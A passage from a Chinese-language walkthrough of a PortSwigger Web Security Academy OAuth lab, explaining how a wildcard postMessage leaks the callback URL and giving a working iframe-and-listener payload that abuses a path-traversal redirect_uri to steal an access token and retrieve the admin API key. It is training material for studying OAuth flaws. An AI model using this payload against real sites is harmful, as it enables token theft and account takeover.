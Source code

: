 获取 admin api key：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051622162.png-water_print](assets/1699407708-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051622162.png-water_print")

#### [](#224-stealing-codes-and-access-tokens-via-a-proxy-page)2.2.4 Stealing codes and access tokens via a proxy page

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

本环境借助网站前端自身特性来绕过 `redirect_uri` 的限制

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051731429.png-water_print](assets/1699407708-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051731429.png-water_print")

这段 JavaScript 代码使用 `postMessage` 方法向当前窗口的父窗口发送消息。

具体来说，代码中的参数 `{type: 'onload', data: window.location.href}` 是要发送的消息体，它包含了两个属性：

-   `type`: 表示消息的类型，这里是 `'onload'`，可能表示当前窗口已经加载完毕。
-   `data`: 表示消息的数据，这里是当前窗口的 URL 地址，通过 `window.location.href` 获取。

而 `'*'` 表示目标窗口的源可以是任何值，即不限制发送目标。

这种方式可以在跨域的情况下进行窗口之间的通信，可以用于实现单页应用（SPA）中的路由控制、子窗口与父窗口之间的通信等场景。接收消息的窗口需要使用 `window.addEventListener` 方法监听消息事件，并在事件处理函数中进行相应的操作。

构造 payload：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```html<br><iframe src="https://oauth-0a9e0004046695e5808b109b02130039.oauth-server.net/auth?client_id=i68727fixf7k81yma64w4&redirect_uri=https://0acc0028043595bf80f11233008c00a2.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe><br><script><br>    window.addEventListener('message', function(e) {<br>        fetch("/" + encodeURIComponent(e.data.data))<br>    }, false)<br></script><br>``` |

这段 JavaScript 代码中，首先使用 `window.addEventListener` 方法为当前窗口添加了一个 `message` 事件的监听器。当接收到其他窗口通过 `postMessage` 方法发送过来的消息时，就会触发这个事件，执行后面的回调函数。

在回调函数中，`e` 参数是一个事件对象，包含了发送的消息和其他信息。其中，`e.data` 属性表示接收到的消息内容，它包含了一个 `data` 属性，是发送的消息体。因此，`encodeURIComponent(e.data.data)` 会将接收到的消息体转换成 URL 编码格式的字符串，并作为路径参数，构造一个 `fetch` 请求。

具体来说，这个 `fetch` 请求会向当前网站的根路径（`"/"`）发送一个 GET 请求，路径中包含了一个 URL 编码后的字符串，这个字符串是之前通过 `postMessage` 方法发送过来的消息体的 `data` 属性值。

获取 log，并访问 `/me` 路由获取 `apikey`：
